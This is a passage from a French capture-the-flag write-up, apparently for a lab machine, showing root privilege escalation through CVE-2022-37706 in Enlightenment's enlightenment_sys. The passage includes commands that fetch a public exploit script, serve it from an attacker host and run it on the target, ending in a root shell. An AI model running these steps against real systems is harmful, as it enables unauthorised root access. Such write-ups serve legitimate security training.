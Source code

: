             </div>
        </div>
        <p class="mt-4 p-3 bg-red-100 dark:bg-red-800/30 rounded">
            <strong>Description :</strong> Le binaire <code>enlightenment_sys</code> gère incorrectement les chemins commençant par <code>/dev/..</code>, permettant une traversée de répertoires et l'exécution de commandes avec les privilèges root.
        </p>
    </div>
</div>

### Exploitation

**Préparation de l'exploit sur la machine attaquante :**

```bash
# Télécharger l'exploit depuis GitHub
wget https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/raw/main/exploit.sh

# Héberger un serveur HTTP
python3 -m http.server 8000
```

**Téléchargement et exécution sur la cible :**

```bash
# Télécharger l'exploit
wget http://10.10.14.41:8000/exploit.sh

# Rendre l'exploit exécutable
chmod +x exploit.sh

# Lancer l'exploitation
./exploit.sh
```

### Résultat de l'exploitation

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-green-600 dark:text-green-400">
        [+] Vulnerable SUID binary found!<br>
        [+] Trying to pop a root shell!<br>
        [+] Enjoy the root shell :)
    </div>
</div>

**Vérification des privilèges :**

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
    </div>
</div>
